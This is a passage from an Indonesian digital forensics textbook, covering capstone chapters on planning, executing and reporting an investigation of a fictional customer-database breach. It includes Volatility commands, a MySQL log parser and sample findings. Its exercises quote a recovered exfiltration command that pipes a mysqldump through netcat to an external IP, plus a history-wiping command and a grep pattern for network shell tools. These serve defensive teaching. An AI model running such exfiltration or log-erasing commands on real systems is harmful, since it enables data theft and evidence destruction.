□ Semua temuan akan dilaporkan secara akurat termasuk yang tidak mendukung hipotesis
□ Tidak ada modifikasi yang disengaja terhadap evidence
□ Pernyataan konflik kepentingan: [ada/tidak ada]
```

### 4.2 Evidence Package: Struktur Lengkap

```bash
# Struktur direktori evidence package:
evidence_package/
├── 00_IDD/
│   └── IDD_CASE-2025-001_v1.0.pdf    # Investigation Design Document
├── 01_Authorization/
│   └── management_authorization_signed.pdf
├── 02_Evidence_Register/
│   └── evidence_register.xlsx         # EID, hash, CoC, access log
├── 03_Forensic_Images/
│   ├── E-001_laptop_wkst001.img       # Disk image
│   ├── E-001_laptop_wkst001.img.sha256  # Hash file
│   └── E-003_phone_backup.ab          # Android backup
├── 04_Working_Copies/
│   ├── E-001_working/                 # ANALISIS DILAKUKAN DI SINI
│   └── E-003_working/
├── 05_Log_Exports/
│   ├── E-002_cloudtrail_2025-10-28_to_30.json
│   ├── E-002_cloudtrail.sha256
│   └── E-004_gws_audit_export.csv
├── 06_Tool_Output/
│   ├── volatility_output/
│   ├── plaso_storage/
│   └── timeline_csv/
└── 07_Chain_of_Custody/
    └── coc_transfer_log.pdf

# Hash seluruh evidence package setelah dibuat:
sha256sum -r evidence_package/03_Forensic_Images/* > package_hashes.txt
sha256sum -r evidence_package/05_Log_Exports/* >> package_hashes.txt
```

### 4.3 Capstone Case Briefing — Skenario Latihan

```markdown
## CAPSTONE CASE BRIEFING — CF-2025-CAPSTONE

### Incident Description
Perusahaan teknologi XYZ Corp melaporkan kemungkinan data breach. Database pelanggan 
yang berisi 50.000 records (nama, email, nomor telepon, sebagian nomor kartu kredit) 
mungkin telah diexfiltrate. IT Security team mendeteksi anomali pada 15 November 2025 
pukul 08:00 WIB, berupa upload traffic yang besar dari server database ke IP eksternal 
yang tidak dikenal.

Tersangka potensial: dua karyawan dengan akses database (DBA-01 dan DBA-02) dan 
kemungkinan external attacker menggunakan credential yang dikompromis.

### Available Evidence (untuk dataset lab)
1. Memory dump dari database server (Linux) — disediakan dosen
2. Disk image database server — disediakan dosen (100 GB, sudah di-hash)
3. Firewall logs (2 minggu terakhir) — CSV export, disanitasi
4. MySQL audit log export — disanitasi
5. Active Directory login logs — dari DC, export XML
6. CCTV access control log — CSV (menunjukkan physical presence)

### Tugas Fase 1 (Bab 12)
1. Buat IDD lengkap berdasarkan case briefing ini
2. Tentukan forensic hypotheses (min 3: H1, H2, H3)
3. Prioritaskan evidence berdasarkan order of volatility dan case relevance
4. Buat evidence register awal (sebelum akuisisi)
5. Tulis limitation statement untuk dataset lab ini
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    BRIEF["Case Briefing\n(incident description, stakeholders)"] --> IDD["Investigation Design\nDocument (IDD)"]
    IDD --> AUTH["Legal Authorization\n(dokumen tertulis)"]
    AUTH --> PLAN["Acquisition Plan\n(per source, tools, procedure)"]
    PLAN --> TRIAGE["Triage:\nOrder of Volatility\n+ Case Relevance"]
    TRIAGE --> ACQUIRE["Akuisisi\n(hash → image → hash → verify)"]
    ACQUIRE --> REGISTER["Evidence Register\n(EID, metadata, hash, CoC)"]
    REGISTER --> WORKINGCOPY["Working Copy\n(bukan original)"]
    WORKINGCOPY --> HYPOTHESIS["Forensic Hypotheses\n(H1, H2, H3 — falsifiable)"]
    HYPOTHESIS --> PHASE2["→ Capstone Fase 2:\nAnalysis"]
```

## 6. Contoh Terapan

```markdown
## SAMPLE IDD — CF-2025-CAPSTONE (Excerpt)

### Forensic Hypotheses
H1 (External Breach): "Credential DBA-01 dikompromis melalui phishing; attacker 
menggunakan credential tersebut untuk mengakses database server dari IP eksternal 
dan mengeksfiltrasi data pelanggan."
→ Artefak pendukung H1: login dari IP asing di MySQL audit log; phishing email di 
mail gateway log; new SSH session dari IP eksternal
→ Artefak yang mementahkan H1: tidak ada external login; semua akses dari IP internal

H2 (Insider Threat): "DBA-01 atau DBA-02 secara langsung mengeksfiltrasi data 
menggunakan akses legitimate mereka, mungkin diikuti dengan upaya anti-forensics."
→ Artefak pendukung H2: query SELECT * besar dari akun DBA; USB activity; 
wiping indicators; unusual download to personal storage
→ Artefak yang mementahkan H2: tidak ada akses DBA ke external IP; 
tidak ada anomali query

H3 (False Positive): "Upload traffic anomali adalah backup atau maintenance 
yang terjadwal yang tidak terdokumentasikan."
→ Artefak pendukung H3: scheduled task atau cron job yang matching; 
internal IP destination; data pattern cocok dengan backup format
→ Artefak yang mementahkan H3: tujuan IP adalah eksternal/tidak dikenal; 
data yang di-upload berisi PII

### Evidence Priority Matrix
| EID | Source | Volatility | Case Relevance | Priority |
|---|---|---|---|---|
| E-001 | Memory dump | CRITICAL (sudah di-capture) | HIGH (process state) | P1 |
| E-002 | MySQL audit log | MEDIUM (log file) | HIGH (query history) | P1 |
| E-003 | Firewall logs | MEDIUM (log file) | HIGH (traffic analysis) | P2 |
| E-004 | Disk image | LOW (persisted) | HIGH (full disk) | P2 |
| E-005 | AD login logs | LOW (log file) | MEDIUM (auth history) | P3 |
| E-006 | CCTV access | LOW (external system) | MEDIUM (physical presence) | P3 |
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Merancang investigasi untuk Capstone case dan membangun evidence package.

**Aktivitas:**
1. Baca Case Briefing CF-2025-CAPSTONE dengan cermat.
2. Buat IDD lengkap menggunakan template yang disediakan.
3. Rumuskan 3 forensic hypotheses yang falsifiable.
4. Buat evidence priority matrix berdasarkan volatility dan case relevance.
5. Bangun evidence package directory structure.
6. Hitung dan verifikasi hash untuk setiap dataset yang disediakan dosen.
7. Isi evidence register awal.
8. Tulis ethical constraints statement pribadi.

**Output:** IDD + Evidence Register + Forensic Hypotheses Document — bagian dari Capstone Eval-5.

## 8. Latihan Pemahaman

1. **(C5)** Evaluasi IDD hipotetis berikut: "Scope investigasi: semua device di jaringan perusahaan." Apa masalah dengan scope ini dari perspektif (a) legal, (b) praktis, dan (c) etika?

2. **(C4)** Mengapa forensic hypothesis harus "falsifiable"? Berikan contoh hypothesis yang tidak falsifiable dan jelaskan mengapa itu bermasalah dalam investigasi forensik.

## 9. Latihan Terapan / Studi Kasus

Anda menerima Case Briefing CF-2025-CAPSTONE. Sebelum menyentuh evidence apapun, klien menelepon dan meminta Anda untuk "segera cari bukti yang memberatkan DBA-01 karena sudah jelas dia yang melakukan." Bagaimana Anda merespons permintaan ini? Apa implikasinya bagi IDD yang sedang Anda buat? Tuliskan: (a) Respons profesional kepada klien; (b) Bagaimana request ini TIDAK boleh mempengaruhi IDD; (c) Implikasi etika dan hukum jika investigator mengikuti request ini.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** (a) Legal: "semua device di jaringan perusahaan" adalah scope yang sangat luas. Ini mungkin meliputi perangkat karyawan yang tidak terkait, perangkat pribadi (BYOD), atau device milik mitra/vendor. Tanpa otorisasi yang spesifik untuk setiap kategori device, akuisisi bisa menjadi tindakan ilegal (akses tanpa izin ke device pribadi). (b) Praktis: scope terlalu luas tidak feasible — ratusan atau ribuan device tidak bisa dianalisis dalam timeframe kasus. Investigasi akan tidak terarah dan buang sumber daya. (c) Etika: akses ke device yang tidak relevan dengan kasus melanggar privasi karyawan yang tidak terlibat. Prinsip "minimum necessary" dalam investigasi: hanya akses yang diperlukan untuk kasus.

**Soal 2:** Hypothesis harus falsifiable karena: jika tidak ada artefak apapun yang bisa membuktikan hypothesis salah, maka hypothesis tidak memberikan arah investigasi — investigator hanya "mencari bukti" tanpa kriteria keberhasilan atau kegagalan. Contoh tidak falsifiable: "Seseorang dalam organisasi ini pernah melakukan sesuatu yang tidak sah." Tidak ada artefak yang bisa membuktikan ini salah secara absolut. Contoh yang baik (falsifiable): "DBA-01 mengakses tabel customers lebih dari 100 kali dalam satu sesi pada 14–15 November 2025." Ini falsifiable: MySQL audit log akan menunjukkan ya atau tidak, tanpa ambiguitas.

**Studi Kasus:** (a) Respons profesional: "Saya memahami kekhawatiran Anda. Namun, investigasi forensik yang objektif adalah satu-satunya cara untuk menghasilkan bukti yang admissible di pengadilan. Jika saya hanya mencari bukti yang memberatkan DBA-01, dan pengadilan kemudian menemukan bahwa saya mengabaikan bukti yang menunjukkan kearah lain (atau bahkan membebaskan DBA-01), maka seluruh laporan kami bisa didiskreditkan dan kasus Anda bisa kalah. Kepentingan Anda yang terbaik adalah investigasi yang objektif dan menyeluruh." (b) Bagaimana IDD tidak boleh dipengaruhi: IDD harus tetap mencantumkan H2 (insider: DBA-01) DAN H1 (external breach) DAN H3 (false positive) secara setara; semua evidence harus dianalisis — bukan hanya yang memberatkan DBA-01; semua temuan yang membebaskan DBA-01 juga harus dilaporkan. (c) Implikasi etika dan hukum jika mengikuti request: investigator yang hanya mencari bukti yang memberatkan (bukan yang membebaskan) melanggar prinsip objektivitas profesi forensik; laporan yang bias dapat dijadikan dasar gugatan malpractice; jika ada bukti yang mengindikasikan orang lain (bukan DBA-01) yang bersalah namun diabaikan, ini bisa dianggap obstruction of justice; testimony di pengadilan dari investigator yang biased dapat dibatalkan dan merusak seluruh kasus.

## 11. Ringkasan Bab

Capstone Fase 1 adalah fondasi: Investigation Design Document (IDD) mendokumentasikan scope, otorisasi, hypotheses, dan rencana akuisisi sebelum analisis dimulai. Evidence package harus terstruktur dengan hash verification, working copy principle, dan chain of custody yang ketat. Forensic hypotheses harus falsifiable — mencakup hipotesis alternatif dan null, bukan hanya hipotesis yang "mendukung klien." Objektivitas adalah imperatif etika dan hukum.

## 12. Refleksi Profesional

1. IDD adalah dokumen "sebelum melihat bukti." Namun dalam praktik, investigator sering mendapat tekanan untuk cepat mulai analisis. Apa risiko konkret dari memulai analisis sebelum IDD selesai? Dalam skenario seperti apa perencanaan bisa dipersingkat tanpa mengorbankan integritas investigasi?


---

# BAB 13 — CAPSTONE FASE 2: EKSEKUSI ANALISIS DAN VALIDASI BUKTI

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Melaksanakan analisis forensik komprehensif berdasarkan IDD dari Fase 1
- Menerapkan semua teknik forensik dari Bab 1–11 secara terintegrasi
- Memvalidasi setiap temuan dengan corroboration yang memadai
- Mendokumentasikan analisis dengan reproducibility yang tinggi

*Berkaitan dengan Sub-CPMK-5, Eval-5/EAS (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Capstone Fase 2:\nExecution & Validation] --> B[Analysis Execution Order]
    B --> B1["Step 1: Memory Forensics\n(volatile state — pertama)"]
    B --> B2["Step 2: Disk Forensics\n(filesystem, registry, artifacts)"]
    B --> B3["Step 3: Log Analysis\n(MySQL, AD, firewall)"]
    B --> B4["Step 4: Network Analysis\n(flow logs, proxy)"]
    B --> B5["Step 5: Cross-Correlation\n(integrated timeline)"]
    A --> C[Hypothesis Testing]
    C --> C1["Test H1: External breach\n→ look for external login events"]
    C --> C2["Test H2: Insider threat\n→ look for DBA query anomalies"]
    C --> C3["Test H3: Legitimate backup\n→ look for scheduled tasks"]
    A --> D[Validation]
    D --> D1["Per-finding: 2+ sources?"]
    D --> D2["Contradiction identified?"]
    D --> D3["Anti-forensics detected?"]
    D --> D4["Reproducibility documented?"]
```

## 3. Pengantar Kontekstual

Fase 2 Capstone adalah implementasi dari semua yang telah dipelajari. Analyst mengeksekusi rencana akuisisi dari Fase 1, melakukan analisis sistematis, dan menguji setiap hipotesis. Dokumentasi di setiap langkah adalah prioritas — karena "analisis yang tidak terdokumentasi tidak ada nilai hukumnya."

## 4. Landasan Teori

### 4.1 Analisis Memory Forensics untuk Capstone

```bash
# === MEMORY ANALYSIS — CF-2025-CAPSTONE ===
# Working copy dari E-001 (Linux database server memory dump)
# Hash verified: sha256 E-001_memory.lime = [hash dari evidence register]

# STEP 1: Basic system info
volatility3 -f /case/working/E-001_memory.lime linux.info 2>&1 | tee /case/output/v3_001_sysinfo.txt

# STEP 2: Process list — cari proses anomali
volatility3 -f /case/working/E-001_memory.lime linux.pslist 2>&1 | tee /case/output/v3_002_pslist.txt

# Analisis cepat: apakah ada proses yang tidak normal untuk database server?
grep -E "(bash|python|perl|wget|curl|nc|ncat|socat)" /case/output/v3_002_pslist.txt

# STEP 3: Network connections — siapa yang terhubung ke mana?
volatility3 -f /case/working/E-001_memory.lime linux.netstat 2>&1 | tee /case/output/v3_003_netstat.txt

# Cari koneksi ke IP eksternal mencurigakan:
grep -v "127.0.0.1\|10\.\|192.168\.\|172\.16" /case/output/v3_003_netstat.txt

# STEP 4: Bash history dalam memory — mungkin dihapus dari disk
volatility3 -f /case/working/E-001_memory.lime linux.bash 2>&1 | tee /case/output/v3_004_bash.txt

# STEP 5: LKM (kernel modules) — cek rootkit
volatility3 -f /case/working/E-001_memory.lime linux.lsmod 2>&1 | tee /case/output/v3_005_lsmod.txt

# STEP 6: Jika ada proses mencurigakan (PID X dari pslist):
# volatility3 -f /case/working/E-001_memory.lime linux.proc.maps --pid X

echo "Memory analysis phase complete — all outputs saved with verbatim commands logged."
```

### 4.2 Disk Forensics untuk Capstone

```bash
# === DISK ANALYSIS — CF-2025-CAPSTONE ===
# Working copy mount (read-only) dari E-004 (disk image)
# Hash verified sebelum mount

# Mount image read-only:
sudo losetup -r /dev/loop0 /case/working/E-004_disk.img
sudo mount -o ro,noatime /dev/loop0 /mnt/case_disk

# STEP 1: Cron jobs — apakah ada scheduled backup yang bisa jadi H3?
cat /mnt/case_disk/etc/cron* /mnt/case_disk/var/spool/cron/* 2>/dev/null | \
    tee /case/output/disk_001_cron.txt

# STEP 2: Bash history dari home directories (jika tidak di-wipe)
find /mnt/case_disk/home /mnt/case_disk/root -name ".bash_history" \
    -exec cat {} \; 2>/dev/null | tee /case/output/disk_002_bash_history.txt

# STEP 3: MySQL config — where are credentials stored?
cat /mnt/case_disk/etc/mysql/mysql.conf.d/*.cnf 2>/dev/null | \
    grep -v "^#" | tee /case/output/disk_003_mysql_config.txt

# STEP 4: SSH authorized_keys — persistence backdoor?
find /mnt/case_disk -name "authorized_keys" -exec cat {} \; 2>/dev/null | \
    tee /case/output/disk_004_ssh_keys.txt

# STEP 5: Recently modified files (dalam periode insiden)
find /mnt/case_disk -newermt "2025-11-14" ! -newermt "2025-11-16" \
    -type f -not -path "*/proc/*" -not -path "*/sys/*" | \
    head -100 | tee /case/output/disk_005_recent_files.txt

# STEP 6: Anti-forensics indicators
# Check for wiping tools:
find /mnt/case_disk -name "shred" -o -name "wipe" -o -name "srm" 2>/dev/null
# Check for /var/log tampering (log file mtime anomaly):
ls -la /mnt/case_disk/var/log/ | tee /case/output/disk_006_log_mtimes.txt

echo "Disk analysis phase complete."
sudo umount /mnt/case_disk
sudo losetup -d /dev/loop0
```

### 4.3 Log Analysis untuk Capstone

```python
"""
MySQL Audit Log Analysis untuk Capstone Case.
Dataset: E-002_mysql_audit.log (disanitasi, format: XML atau CSV tergantung versi).
"""
import re
from datetime import datetime
from collections import defaultdict

def analyze_mysql_audit(audit_log_path):
    """
    Parse MySQL audit log untuk aktivitas anomali.
    Fokus: query SELECT besar, akses tabel customers, akses dari user tidak biasa.
    """
    large_selects = []
    customer_accesses = []
    user_stats = defaultdict(lambda: {'queries': 0, 'rows_examined': 0})
    
    with open(audit_log_path, 'r') as f:
        content = f.read()
    
    # Pattern untuk MySQL audit log format (general_log):
    # Format: timestamp user_host thread_id query_id command query
    log_pattern = re.compile(
        r'(\d{4}-\d{2}-\d{2}T\d{2}:\d{2}:\d{2})\s+'
        r"(\w+)@(\S+)\s+"
        r'\[(\w+)\]\s+'
        r'(.+?)(?=\d{4}-\d{2}-\d{2}T|\Z)',
        re.DOTALL
    )
    
    for match in log_pattern.finditer(content):
        timestamp = match.group(1)
        user = match.group(2)
        host = match.group(3)
        query_type = match.group(4)
        query = match.group(5).strip()
        
        user_stats[user]['queries'] += 1
        
        # Flag: SELECT dari tabel customers
        if 'customers' in query.lower() and 'SELECT' in query.upper():
            customer_accesses.append({
                'timestamp': timestamp,
                'user': user,
                'host': host,
                'query': query[:200]
            })
        
        # Flag: SELECT * (bulk access)
        if 'SELECT *' in query.upper() and 'LIMIT' not in query.upper():
            large_selects.append({
                'timestamp': timestamp,
                'user': user,
                'query': query[:200]
            })
    
    print("=== CUSTOMER TABLE ACCESS ===")
    for access in customer_accesses:
        print(f"[{access['timestamp']}] {access['user']}@{access['host']}")
        print(f"  Query: {access['query'][:100]}")
    
    print(f"\n=== LARGE SELECTS (no LIMIT) ===")
    for ls in large_selects:
        print(f"[{ls['timestamp']}] {ls['user']}: {ls['query'][:100]}")
    
    print(f"\n=== USER QUERY STATISTICS ===")
    for user, stats in user_stats.items():
        print(f"{user}: {stats['queries']} queries")

analyze_mysql_audit("/case/working/E-002_mysql_audit.log")
```

### 4.4 Finding Documentation Template

```markdown
## FINDING TEMPLATE — CF-2025-CAPSTONE

### Finding ID: F-001
**Kategori:** [Network Anomaly / Credential Abuse / Data Access / Anti-Forensics / Malware]
**Severity:** [CRITICAL / HIGH / MEDIUM / LOW / INFORMATIONAL]
**Timestamp (UTC):** 
**Source Evidence:** [EID yang relevan]
**Corroboration:**
  - Source 1: [EID, jenis log, deskripsi temuan]
  - Source 2: [EID, jenis log, deskripsi temuan]
**Confidence:** [HIGH / MEDIUM / LOW / UNCERTAIN]
**Keterkaitan dengan Hypothesis:**
  - Mendukung H1: [Ya/Tidak — alasan]
  - Mendukung H2: [Ya/Tidak — alasan]
  - Mementahkan H3: [Ya/Tidak — alasan]
**Description:**
[Deskripsi lengkap temuan]
**Raw Evidence (verbatim):**
```
[Output perintah yang menghasilkan temuan ini]
```
**Limitation:**
[Apa yang tidak bisa disimpulkan dari temuan ini]
**Recommended Action:**
[Investigasi lanjutan yang disarankan]
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    IDD["IDD dari Fase 1\n(scope, hypotheses, plan)"] --> MEMORY["Memory Analysis\n(Volatility — linux)"]
    MEMORY --> |"proses anomali?"| DISK["Disk Analysis\n(cron, bash_history, files)"]
    DISK --> |"anti-forensics?"| LOGANALYSIS["Log Analysis\n(MySQL, firewall, AD)"]
    LOGANALYSIS --> |"query anomali?"| NETANALYSIS["Network Analysis\n(flow logs, DNS)"]
    NETANALYSIS --> |"external IP?"| CORRELATE["Cross-Correlation\n(integrated timeline)"]
    CORRELATE --> VALIDATE["Validation:\nper-finding corroboration check"]
    VALIDATE --> |"HIGH confidence"| KEY_FINDINGS["Key Findings\n(H1/H2/H3 status)"]
    VALIDATE --> |"UNCERTAIN/contradicted"| UNCERTAINTY_DOC["Uncertainty Documentation"]
    KEY_FINDINGS & UNCERTAINTY_DOC --> PHASE3["→ Capstone Fase 3:\nExpert Report"]
```

## 6. Contoh Terapan

```markdown
## SAMPLE FINDING SET — CF-2025-CAPSTONE

### F-001: Anomalous MySQL Bulk Select — CRITICAL/HIGH
Timestamp: 2025-11-14 23:55:12 UTC
Source: E-002 (MySQL audit log)
Query: SELECT * FROM customers LIMIT 0,50000  — full table dump (50K rows)
User: dba01@localhost
Corroboration: E-003 (Firewall log) — large outbound 47MB ke IP 198.51.100.42 at 23:56 UTC
Confidence: HIGH (2 independent sources — DB log + firewall)
Supports H2: YA — akses legitimate credential untuk bulk data access
Does NOT support H1: akses dari localhost (bukan remote login dengan credential dicuri)
Does NOT support H3: scheduled backups di cron.d tidak ada untuk waktu ini

### F-002: External SSH Connection to DB Server — HIGH
Timestamp: 2025-11-14 23:40:17 UTC  (15 menit sebelum F-001)
Source: Memory (volatility linux.netstat) + E-003 (firewall log)
Detail: SSH connection ESTABLISHED dari 198.51.100.42:34521 → server:22
Confidence: HIGH (memory state + firewall corroboration — same IP sebagai F-001)
Supports H1: external attacker masuk via SSH sebelum DB access
Implication: attacker mendapat akses SSH KEMUDIAN melakukan DB dump, bukan DBA yang insider

### HYPOTHESIS STATUS UPDATE (after F-001, F-002):
H1 (External Breach): SUPPORTED — external IP yang sama untuk SSH dan eksfiltrasi
H2 (Insider): PARTIALLY — akses dari 'dba01@localhost' tapi preceded by SSH session from external
H3 (Legitimate Backup): REFUTED — tidak ada cron job untuk waktu dan destination ini
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Melaksanakan analisis lengkap dari evidence package Capstone.

**Aktivitas:**
1. Verifikasi hash semua working copies sebelum memulai.
2. Lakukan memory analysis menggunakan perintah yang terdokumentasi.
3. Lakukan disk analysis dengan mount read-only.
4. Analisis MySQL audit log menggunakan skrip yang disediakan.
5. Korelasikan semua temuan dengan timeline.
6. Buat minimum 5 Finding Reports menggunakan template.
7. Update hypothesis status berdasarkan evidence.
8. Dokumentasikan semua perintah yang dijalankan dengan verbatim output.

**Output:** Findings Report Set + Updated Hypothesis Status — bagian dari Capstone Eval-5.

## 8. Latihan Pemahaman

1. **(C5)** Dalam analisis Capstone, Anda menemukan bahwa bash_history di disk kosong (mungkin dihapus), namun volatility linux.bash menunjukkan commands. Bagaimana Anda memanfaatkan discrepancy ini: (a) sebagai evidence forensik, (b) sebagai indicator anti-forensics?

2. **(C4)** Anda menemukan bahwa akses MySQL dari `dba01@localhost` terjadi tepat pada saat ada SSH session aktif dari IP eksternal (F-002). Mengapa ini sangat signifikan untuk H1 vs H2?

## 9. Latihan Terapan / Studi Kasus

Dalam analisis MySQL audit log, Anda menemukan query: `SELECT * FROM customers WHERE id > 0 LIMIT 50000` dieksekusi oleh dba01 sebanyak 5 kali dalam 10 menit, menghasilkan total 250.000 rows. Di firewall log, ada 5 koneksi outbound dari server ke IP 198.51.100.42, masing-masing mentransfer ~47MB. Di memory, linux.bash menunjukkan: `mysqldump -u root -p customers | gzip | nc 198.51.100.42 4444`. Dari tiga sumber ini: (a) Buat corroboration matrix; (b) Hipotesis mana yang paling kuat didukung? (c) Apa yang masih perlu diinvestigasi?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** (a) Sebagai evidence forensik: bash_history di memory lebih sulit dimanipulasi dari yang tersimpan di disk (karena attacker perlu tau address memory untuk modify, dan memory hanya ada saat runtime). Commands yang ditemukan di memory memiliki higher fidelity karena menggambarkan actual session yang sedang/baru berjalan. (b) Sebagai indicator anti-forensics: bash_history file di disk yang kosong (ukuran 0 atau tidak ada) namun memory masih menyimpan commands adalah pola klasik anti-forensics: attacker menghapus file .bash_history setelah sesi (atau via `history -c && > ~/.bash_history`), namun memory belum di-flush. Finding: HISTFILE manipulation detected — discrepancy antara disk (empty/deleted) dan memory (commands present) menunjukkan aktif upaya menghilangkan command history.

**Soal 2:** SSH session aktif dari IP eksternal BERSAMAAN dengan akses MySQL dari localhost adalah smoking gun untuk H1: external attacker masuk via SSH, lalu dari dalam server (localhost) menjalankan MySQL query. Ini menjelaskan mengapa akses adalah `dba01@localhost` (SSH session established sebagai dba01 atau attacker menggunakan credential dba01 yang tersimpan di server). Tanpa SSH session dari eksternal, `dba01@localhost` hanya bisa berasal dari orang yang physically/logically ada di server — yang akan mendukung H2. Kombinasi keduanya memperkuat H1 secara signifikan.

**Studi Kasus:** (a) Corroboration matrix: F-001: MySQL SELECT 5x (E-002 audit log, HIGH). F-002: 5 outbound connections ~47MB each ke 198.51.100.42 (E-003 firewall, HIGH). F-003: mysqldump | nc command ke 198.51.100.42:4444 in memory (Memory analysis, HIGH). Cross-reference: IP identik (198.51.100.42) muncul di F-002 DAN F-003; timing cocok (MySQL queries → outbound transfer); volume cocok (5 queries × 50K rows ≈ 250K records; 5 connections × 47MB ≈ 235MB → konsisten untuk 250K customer records dengan rata-rata ~940 bytes/record). Composite confidence: HIGH (3 independent sources). (b) H1 paling kuat: ada transfer aktif ke IP eksternal dengan tool (nc = netcat) yang sangat mencurigakan dalam konteks server database. (c) Yang masih perlu diinvestigasi: Bagaimana attacker mendapat akses? (SSH key? Password? CVE?); Authentication log untuk SSH session ke server; Siapa pemilik IP 198.51.100.42?; Apakah data yang di-transfer mengandung PII (sample header dari mysqldump untuk confirm); Apakah ada backdoor yang di-install (persistence)?

## 11. Ringkasan Bab

Fase 2 Capstone mengeksekusi rencana dari Fase 1: memory → disk → log → network → correlation. Setiap temuan harus menggunakan Finding Template dengan corroboration dan hypothesis mapping. Bash history dalam memory vs disk discrepancy adalah evidence anti-forensics. External SSH session bersamaan dengan localhost DB access adalah indikator kuat external compromise. Dokumentasi verbatim setiap perintah adalah mandatory untuk reproducibility.

## 12. Refleksi Profesional

1. Selama analisis, Anda menemukan data yang menunjukkan bahwa CEO perusahaan (bukan tersangka) juga mengakses database pada waktu yang sama, meskipun dengan tujuan yang berbeda. Apa kewajiban profesional dan etika Anda terkait temuan ini?

---

# BAB 14 — CAPSTONE FASE 3: LAPORAN AHLI DAN REPRODUCIBILITY PACKAGE

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Menyusun laporan forensik level ahli yang memenuhi standar hukum
- Menulis executive summary yang dapat dipahami non-teknis
- Membangun reproducibility package yang memungkinkan verifikasi independen
- Mempersiapkan deliverables untuk submission Capstone akhir

*Berkaitan dengan Sub-CPMK-5, Eval-5/EAS (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Capstone Fase 3:\nExpert Report] --> B[Report Structure]
    B --> B1["1. Executive Summary\n(non-teknis, 1 halaman)"]
    B --> B2["2. Methodology\n(IDD reference, tools, procedure)"]
    B --> B3["3. Findings\n(per-finding dengan corroboration)"]
    B --> B4["4. Timeline\n(validated, dengan confidence rating)"]
    B --> B5["5. Hypothesis Conclusion\n(H1/H2/H3 verdict)"]
    B --> B6["6. Anti-Forensics Section\n(jika terdeteksi)"]
    B --> B7["7. Limitation Statement\n(semua keterbatasan)"]
    B --> B8["8. Recommendation\n(langkah selanjutnya)"]
    B --> B9["9. Expert Attestation\n(CV, disclaimer, signature)"]
    A --> C[Reproducibility Package]
    C --> C1["Evidence Register\n(EID, hash, CoC)"]
    C --> C2["Tool inventory:\nall tools + versions"]
    C --> C3["Command log:\nverbatim commands + output"]
    C --> C4["Analysis notes:\nreasoning + hypothesis mapping"]
    A --> D[Admissibility Checks]
    D --> D1["No speculation:\nhanya apa yang terlihat di evidence"]
    D --> D2["Uncertainty stated:\nconfidence levels, limitations"]
    D --> D3["Objective:\ntermasuk evidence yang membebaskan"]
    D --> D4["Reproducible:\norang lain bisa verifikasi"]
```

## 3. Pengantar Kontekstual

Laporan forensik adalah produk akhir yang paling penting. Sebagus apapun analisis dilakukan, jika laporan ditulis dengan buruk — overclaiming, tidak jelas, tidak dapat direproduksi, atau bias — maka laporan tersebut tidak dapat dipertahankan di pengadilan. Bab ini membangun kompetensi menulis laporan level ahli yang memenuhi standar admissibility dan reproducibility.

## 4. Landasan Teori

### 4.1 Expert Forensic Report: Full Template

```markdown
# DIGITAL FORENSIC EXPERT REPORT
## Case Reference: CF-2025-CAPSTONE

---

## DOCUMENT CONTROL
| Field | Value |
|---|---|
| Prepared by | [Nama Investigator, Kualifikasi] |
| Date prepared | [Tanggal] |
| Version | 1.0 |
| Classification | CONFIDENTIAL |
| Client | XYZ Corp |
| Reviewed by | [Nama Reviewer] |
| Report hash (SHA-256) | [hash dari versi final laporan] |

---

## 1. EXECUTIVE SUMMARY

[Ditulis untuk pembaca non-teknis: CEO, pengacara, hakim]

Investigasi forensik digital dilakukan terhadap insiden keamanan yang dilaporkan pada 
15 November 2025, di mana database pelanggan XYZ Corp yang berisi ±50.000 records 
diduga dieksfiltrasi.

**Temuan Utama:**
Bukti forensik menunjukkan bahwa pada 14 November 2025 pukul 23:40–00:10 UTC, 
terjadi akses tidak sah ke server database melalui koneksi SSH dari IP eksternal 
198.51.100.42. Seluruh tabel customers di-dump menggunakan tool mysqldump dan 
dikirimkan ke IP yang sama menggunakan netcat (nc). Total data yang teridentifikasi: 
~235 MB, konsisten dengan volume untuk 250.000 records pelanggan.

**Confidence:** HIGH berdasarkan corroboration dari 3 sumber independen.

**Catatan Keterbatasan Penting:** Kami tidak dapat mengidentifikasi secara definitif 
siapa yang mengendalikan IP 198.51.100.42 dari evidence forensik yang tersedia. 
Identifikasi pemilik IP memerlukan proses hukum kepada registrar/ISP yang bersangkutan.

---

## 2. SCOPE DAN METODOLOGI

### 2.1 Scope Investigasi
Sebagaimana ditetapkan dalam IDD versi 1.0 (referensi: 00_IDD/IDD-v1.0.pdf):
- In-scope: Database server CF-E-001 hingga CF-E-006 (sesuai evidence register)
- Out-scope: Perangkat pribadi karyawan; akun cloud personal; komunikasi di luar masa insiden

### 2.2 Metodologi
Investigasi mengikuti panduan NIST SP 800-86 (Guide to Integrating Forensic Techniques 
into Incident Response) dengan adaptasi untuk lingkungan Linux.

Urutan analisis:
1. Memory forensics: Volatility 3 (v2.5.0) pada memory dump Linux
2. Disk forensics: Mount read-only, analisis file system
3. Log analysis: MySQL audit log, AD login log, firewall log
4. Cross-correlation: Integrated timeline menggunakan Plaso 20240310

### 2.3 Tool Inventory
| Tool | Version | Hash (SHA-256) | Purpose |
|---|---|---|---|
| Volatility 3 | 2.5.0 | [hash] | Memory forensics |
| dc3dd | 7.2.641 | [hash] | Disk imaging |
| Plaso/log2timeline | 20240310 | [hash] | Timeline creation |
| sha256sum | 8.32 | [hash] | Hash verification |

---

## 3. CHAIN OF CUSTODY

[Reference: 07_Chain_of_Custody/coc_transfer_log.pdf]

Semua evidence diterima dengan kondisi sealed, hash verified, dan dicatat dalam 
evidence register (referensi: 02_Evidence_Register/evidence_register.xlsx).

---

## 4. FINDINGS

### Finding F-001: Unauthorized SSH Access from External IP [CRITICAL/HIGH]
**Timestamp:** 2025-11-14T23:40:17Z
**Confidence:** HIGH

**Evidence:**
- Source 1 (E-001, Memory): `volatility3 linux.netstat` menunjukkan ESTABLISHED connection: 
  198.51.100.42:34521 → [server_ip]:22
- Source 2 (E-003, Firewall): Inbound TCP dari 198.51.100.42:34521 ke [server_ip]:22 
